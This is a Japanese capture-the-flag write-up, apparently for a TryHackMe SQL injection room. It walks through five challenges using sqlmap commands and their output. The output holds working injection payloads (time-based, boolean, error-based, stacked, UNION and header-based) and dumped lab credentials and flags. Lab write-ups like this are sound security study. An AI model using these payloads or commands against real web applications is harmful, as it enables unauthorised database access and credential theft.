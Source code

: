 #### 1
```
sqlmap -r s.req -p username --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---------- snip ----------

[23:28:31] [INFO] parsing HTTP request from 's.req'
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=name' AND (SELECT 9451 FROM (SELECT(SLEEP(5)))Fanc) AND 'BhIX'='BhIX&password=pass
---

---------- snip ----------

Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
```
![image](https://user-images.githubusercontent.com/6504854/234910802-dc397064-7469-494b-bd79-717b1d183642.png)



#### 2
Hintを読むとIPを記録してるとかいてある。X-forwarded-forを追加したところ、Sleepがきいてる。

```
X-Forwarded-For:127.0.0.1';select+sleep(3);#
```

```
sqlmap --dbms mysql --headers="X-forwarded-for:127.0.0.1" -u http://10.10.56.57/terms-and-conditions --dump --risk 1 --level 1
        ___
       __H__                                                                                    
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                        
|_ -| . [)]     | .'| . |                                                                       
|___|_  [.]_|_|_|__,|  _|                                                                       
      |_|V...       |_|   https://sqlmap.org                                                    

---------- snip ----------
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2673 FROM (SELECT(SLEEP(5)))VFMf) AND 'pUCP'='pUCP
---
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C------------------------------5} |
+----+---------------------------------------------+

```

#### 3

Registerできないので、ソースを見るとregister/user-checkに飛ぶようなので、そちらを確認する。

![image](https://user-images.githubusercontent.com/6504854/235073351-4790508f-0804-4593-8144-02c2eba69112.png)

![image](https://user-images.githubusercontent.com/6504854/234926996-5433dd7a-c221-42da-ba16-760861ec12d1.png)

![image](https://user-images.githubusercontent.com/6504854/234927091-e49433eb-dd0d-439e-bf9e-a302d0df5fa8.png)

```
sqlmap --dbms mysql -u http://10.10.56.57/register/user-check?username=admin -p username --dump

---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 8387=8387 AND 'joNK'='joNK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5498 FROM (SELECT(SLEEP(5)))bqcH) AND 'uivi'='uivi
---
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:9------------------------------8} |
+----+---------------------------------------------+

```

#### 4
数値演算がうごく。
![image](https://user-images.githubusercontent.com/6504854/234930560-452e84c4-385f-4262-98eb-837e6c47d50f.png)
![image](https://user-images.githubusercontent.com/6504854/234930659-5a9c4fed-8472-45a9-b520-96a33b6714fd.png)

SQLmapでとれず。
```
┌──(kali🦝kali)-[~]
└─$ sqlmap -dbms mysql -u http://10.10.56.57/user?id=1 -p id --dump --flush-session

----------------- snip ------------------

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9655=9655

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6365 FROM (SELECT(SLEEP(5)))HOws)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8134 UNION ALL SELECT CONCAT(0x717a786a71,0x486a4c706e684179424c69766c464b55436e55684b55734c685273484843714e73545a4d75767458,0x71766a6a71),NULL,NULL-- -
---
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```
usersテーブルは3カラムでflagはない。union selectを元にたぶんflagテーブルかフィールドflagを含むテーブルがあるのではというあてずっぽうでガチャガチャする。

![image](https://user-images.githubusercontent.com/6504854/234960030-1ab47f3a-d563-4c3d-8c07-c497bffbce08.png)

この問題が一番難しく、答え見て修正した。

#### 5
コメントとSleepがきく。

![image](https://user-images.githubusercontent.com/6504854/234930133-23f86b71-c999-4987-a9b1-5c10609180b7.png)

![image](https://user-images.githubusercontent.com/6504854/234930304-0cae3595-d827-4e88-aec1-7a0a6f680333.png)

```
$ sqlmap --dbms mysql -u http://10.10.56.57/post?id=1 -p id --dump               
 
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9968=9968

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1 AND GTID_SUBSET(CONCAT(0x716a627871,(SELECT (ELT(7296=7296,1))),0x7176767a71),7296)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1979 FROM (SELECT(SLEEP(5)))kSmf)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-6989 UNION ALL SELECT NULL,NULL,CONCAT(0x716a627871,0x5a4348716f52576e476b675742424a5842636765504a416e676c624a4143455976787957414a4370,0x7176767a71),NULL-- -
---
Database: sqhell_5
Table: posts
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:B------------------------------8} |
+----+---------------------------------------------+
```

まいどツールだのみ。

